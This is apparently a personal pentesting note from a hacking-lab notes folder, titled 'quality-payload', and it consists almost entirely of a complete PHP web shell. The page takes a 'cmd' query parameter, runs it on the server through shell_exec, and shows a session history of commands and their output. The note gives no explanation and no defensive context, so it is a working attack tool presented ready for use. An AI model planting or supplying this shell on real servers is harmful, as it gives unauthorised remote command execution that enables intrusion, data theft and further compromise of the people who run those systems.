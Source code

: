 # quality-payload

Author: Julien Bongars
Date: 2025-09-21 09:48:44
Path: /opt/development/cybersec/hacklas/notes/infiltration/reverse-shell/php/quality-payload.md

---

## Payload

```php
<!DOCTYPE html>
<html>
<head>
    <title>Shell</title>
</head>
<body>

<?php
session_start();

if (!isset($_SESSION['history'])) {
    $_SESSION['history'] = array();
}

if (isset($_GET['cmd']) && !empty($_GET['cmd'])) {
    $cmd = $_GET['cmd'];
    $output = shell_exec($cmd . ' 2>&1');
    $_SESSION['history'][] = array('cmd' => $cmd, 'output' => $output);
}

if (isset($_GET['clear'])) {
    $_SESSION['history'] = array();
}
?>

<div style="border: 1px solid #ccc; height: 400px; overflow-y: scroll; padding: 10px; font-family: monospace; background: #f5f5f5;">
<?php
foreach ($_SESSION['history'] as $entry) {
    echo "<div>";
    echo "<strong>$ " . htmlspecialchars($entry['cmd']) . "</strong><br>";
    echo "<pre>" . htmlspecialchars($entry['output']) . "</pre>";
    echo "</div>";
}
?>
</div>

<form>
    <input type="text" name="cmd" placeholder="Command" style="width: 300px;">
    <input type="submit" value="Run">
    <a href="?clear=1">Clear History</a>
</form>

</body>
</html>
```
